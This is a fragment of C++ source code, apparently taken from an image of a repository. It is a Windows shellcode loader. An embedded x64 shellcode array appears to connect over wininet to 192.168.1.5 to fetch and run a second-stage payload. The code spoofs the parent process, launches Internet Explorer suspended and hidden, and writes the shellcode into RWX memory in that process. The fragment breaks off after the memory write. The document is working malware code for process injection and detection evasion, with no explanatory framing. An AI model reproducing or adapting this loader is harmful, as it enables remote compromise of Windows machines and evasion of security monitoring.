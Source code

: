 ```
    unsigned char shellCode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xe9\x93\x00\x00\x00\x5a\x48\x89\xc1\x41\xb8\xd1\x11\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x79\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x32\xc0\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\xba\x1f\x00\x00\x00\x6a\x00\x68\x80\x33\x00\x00\x49\x89\xe0\x41\xb9\x04\x00\x00\x00\x41\xba\x75\x46\x9e\x86\xff\xd5\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xb3\xe9\xe4\x01\x00\x00\xe8\x82\xff\xff\xff\x2f\x6f\x45\x39\x70\x00\xd5\xb8\x6f\x15\x1f\xc5\xc1\x49\xa9\x5e\xe6\x9b\x17\x48\xa5\x28\x2d\xc8\xed\xf2\x73\xfe\xd3\x0c\xc9\x27\x32\x1d\xcf\x64\xe4\xc1\x1e\xe5\xc8\x28\x75\x4e\x60\xf8\x79\xfb\xc0\x49\x1b\x2b\x0d\x86\x81\x8e\xf8\x12\x8c\x62\x20\x6c\x3b\xd3\x09\x12\xe7\x4e\x50\xec\x74\x0f\x43\xa8\x35\x4e\x6e\xfc\x3d\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x39\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x31\x3b\x20\x57\x4f\x57\x36\x34\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x35\x2e\x30\x3b\x20\x4d\x41\x53\x50\x29\x0d\x0a\x00\xee\x20\xac\x1d\xac\x96\x39\xb2\xa9\xd6\x27\x53\x22\x1e\xd9\x95\xd1\xb4\x4c\xac\xaa\x56\x16\x5e\x4a\xf8\xee\xd1\xe5\x4b\x58\xa3\x02\x5f\xda\xfb\x6e\x43\x20\x8c\x2c\xe3\xf6\xea\xbf\x61\x41\x2b\x71\x46\x52\x8e\x49\x12\xcc\x3a\xdd\xc4\x43\x92\x46\x24\x36\x59\x21\xea\x53\x78\x40\x1d\xe1\x3e\xf0\x16\x8d\x9b\xf9\xc1\x97\x9e\xde\xc2\x23\x35\x3d\x95\x6b\x3c\xdf\x9e\xbd\x49\xa5\x57\xfa\xfa\xd0\x28\x10\xab\x6d\x7b\x11\xdd\x7a\x22\x7b\x2d\x72\x56\x50\x27\x36\x9e\x56\x23\xcb\xbf\x70\x67\xa5\x2c\xe3\xb1\x9d\x24\x01\x23\xf0\xd8\xe5\x17\x9b\x90\x2d\x5c\x31\x93\x71\x40\xc1\x1b\x9c\x8b\x7a\x8f\xe9\x00\x11\x76\x88\x8f\xde\xba\x67\xac\xeb\x91\xbd\x79\x14\xec\xa5\x2b\xb5\xf3\xfd\x05\x1a\x78\x15\x1d\xa4\x30\x64\x93\x97\xe2\x59\x08\xfc\x9a\x76\x4d\x9f\x7b\x65\x43\xe4\x9f\x30\xd5\xf3\x5f\x72\x39\x57\x87\x4b\x78\x04\x36\xf1\xf8\xf4\x03\x81\x6f\x0d\xfe\x85\x0e\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x7f\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x31\x2e\x35\x00\x12\x34\x56\x78";

    STARTUPINFOEXA sInfoEX;
    PROCESS_INFORMATION pInfo;
    SIZE_T sizeT;

    HANDLE expHandle = OpenProcess(PROCESS_ALL_ACCESS, false, getParentProcessID());

    ZeroMemory(&sInfoEX, sizeof(STARTUPINFOEXA));
    InitializeProcThreadAttributeList(NULL, 1, 0, &sizeT);
    sInfoEX.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, sizeT);
    InitializeProcThreadAttributeList(sInfoEX.lpAttributeList, 1, 0, &sizeT);
    UpdateProcThreadAttribute(sInfoEX.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &expHandle, sizeof(HANDLE), NULL, NULL);
    sInfoEX.StartupInfo.cb = sizeof(STARTUPINFOEXA);

    CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, reinterpret_cast<LPSTARTUPINFOA>(&sInfoEX), &pInfo);

    LPVOID lpBaseAddress = (LPVOID)VirtualAllocEx(pInfo.hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    SIZE_T* lpNumberOfBytesWritten = 0;
    BOOL resWPM = WriteProcessMemory(pInfo.hProcess, lpBaseAddress, (LPVOID)shellCode, sizeof(shellCode), lpNumberOfBytesWritten);

```
